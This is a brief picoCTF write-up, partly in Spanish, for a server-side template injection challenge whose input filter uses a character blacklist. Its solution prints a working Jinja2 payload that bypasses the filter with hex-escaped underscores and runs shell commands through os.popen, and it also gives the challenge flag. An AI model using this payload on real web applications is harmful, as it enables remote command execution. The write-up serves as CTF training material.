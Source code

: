 I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:57147/)!

Hints:
1.-Server Side Template Injection
2.-Why is blacklisting characters a bad idea to sanitize input?

### Solucion

```
De igual forma me ayude de una plantilla para ejecutar codigo:
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`

de la pagina: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

De la cual solo cambie el 'id' por cat flag y aparecio
en este reto otras 3 plantillas no funcionaron asta esta:

# picoCTF{sst1_f1lt3r_byp4ss_e3f3b57a}
```